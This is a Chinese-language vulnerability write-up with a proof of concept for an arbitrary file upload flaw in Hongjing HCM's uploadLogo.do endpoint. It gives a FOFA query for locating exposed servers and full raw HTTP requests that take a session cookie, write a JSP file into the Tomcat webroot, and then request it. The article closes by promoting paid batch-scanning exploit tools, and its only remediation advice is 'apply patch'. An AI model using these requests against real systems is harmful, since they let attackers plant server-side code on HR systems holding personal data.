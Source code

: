 #  宏景HCM uploadLogo.do接口存在任意文件上传漏洞 附POC   
2024-11-21更新  南风漏洞复现文库   2024-11-21 03:34  
  
免责声明：  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。  
该文章仅供学习用途使用。  
## 1. 宏景HCM 口简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
宏景HCM  
## 2.漏洞描述  
  
宏景HCM uploadLogo.do接口存在任意文件上传漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
宏景HCM  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3YibTibmhLpvk4cHXyvALLaKjKfnXptmZFVIFurNCIyogoqCbBhficXBr6gtZoaehaNYfj6sQTLl64eg/640?wx_fmt=png&from=appmsg "null")  
  
宏景HCM uploadLogo.do接口存在任意文件上传漏洞  
## 4.fofa查询语句  
  
body='<div class="hj-hy-all-one-logo"'  
## 5.漏洞复现  
  
漏洞数据包：  
  
第一步，获取cookie  
```
GET /module/system/qrcard/mobilewrite/qrcardmain.jsp HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YibTibmhLpvk4cHXyvALLaKj5jDHriavYqibynSuaVeZwaTQ9SGpwVmWJlJqciajpRibrNg666XJhPWmNg/640?wx_fmt=jpeg&from=appmsg "null")  
  
第二部，获取路径  
```
POST /sys/cms/uploadLogo.do?b_upload=upload&isClose=2&type=1 HTTP/1.1
Host: xx.xx.xx.xx
User-Agent:Mozilla/4.0(compatible; MSIE 8.0;Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept:*/*
Connection: close
Cookie: JSESSIONID=7EF0DA3260081E4BE81B06CA145761FB
Content-Length: 587
Content-Type: multipart/form-data; boundary=09040231427371112abff3a2a34c3efe

--09040231427371112abff3a2a34c3efe
Content-Disposition: form-data; name="path"


--09040231427371112abff3a2a34c3efe
Content-Disposition: form-data; name="lfType"

0
--09040231427371112abff3a2a34c3efe
Content-Disposition: form-data; name="logofile"; filename=""
Content-Type: image/gif

<%= "bttest1" %>
--09040231427371112abff3a2a34c3efe
Content-Disposition: form-data; name="twoFile"; filename=""
Content-Type: image/gif

<%= "bttest1" %>
--09040231427371112abff3a2a34c3efe
Content-Disposition: form-data; name="param"

param
--09040231427371112abff3a2a34c3efe--

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YibTibmhLpvk4cHXyvALLaKjA98d04UlIPqb98ppIh9v7mLLQ0CtRm9XAdzUvqVLj6B315Hx60l3cA/640?wx_fmt=jpeg&from=appmsg "null")  
  
第三步，上传文件  
```
POST /sys/cms/uploadLogo.do?b_upload=upload&isClose=2&type=1 HTTP/1.1
Host: xx.xx.xx.xx
User-Agent:Mozilla/5.0(Windows NT 10.0;Win64; x64; rv:108.0)Gecko/20100101Firefox/108.0
Cookie: JSESSIONID=163CC9FFC3CAAEAFCF07F29B294E99F0
Content-Type:multipart/form-data; boundary=----WebKitFormBoundaryfjKBvGWJbG07Z02r

------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="path"

D~3a~5cTomcat~39~5cwebapps~5cROOT~5ctest1.jsp
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="lfType"

0
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="logofile"; filename=""
Content-Type: image/gif

<%="bttest1"%>
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="twoFile"; filename=""
Content-Type: image/gif

<%="bttest1"%>
------WebKitFormBoundaryfjKBvGWJbG07Z02r--

```  
  
访问上传文件路径  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3YibTibmhLpvk4cHXyvALLaKjvsticOMrFHsiamm2Pqo6tD38uFHqiawyhwGHFbqbmE0AE66EQkzIxXjnQ/640?wx_fmt=png&from=appmsg "")  
```
GET /test123.jsp HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.xx.xx.xx
Cookie: JSESSIONID=7EF0DA3260081E4BE81B06CA145761FB; 
```  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：  
南风网络安全  
  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YibTibmhLpvk4cHXyvALLaKjeTBWRvwxkQhJpmWpp6BlCJPib9fSawMY8WIQhvPCA2IQ6AejPICa16Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YibTibmhLpvk4cHXyvALLaKj0vSX5RIgxElhrG0VHTXZLTn6S5X8KfFVODNtaciasJmaUgnoYWI9c5Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YibTibmhLpvk4cHXyvALLaKjlBJicBCzMeF9tPuxzPqLtrOBY3KvfYhyz6dGfa9snS6CDIxD4tO8THw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YibTibmhLpvk4cHXyvALLaKjGUQcadLmEpsVicXRicFmDRmoLPIck7FBOTGqOyLzWVpVRqNJjBfoYo5A/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YibTibmhLpvk4cHXyvALLaKjAy8Babvz90x0UtTD7qfYBQkhbFGIfVHWUu8CVhzuKsWuBb3A6XibjwA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
[D-Link多款产品account_mgr.cgi接口存在远程命令执行漏洞CVE-2024-10914 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487762&idx=1&sn=a25eeab4481350dc19897a38bb313f5e&chksm=974b9c15a03c150345340d9d369c94d55c2c09cdcc8328fb140109e9a753eb0550d703dd390f&scene=21#wechat_redirect)  
  
  
  
  

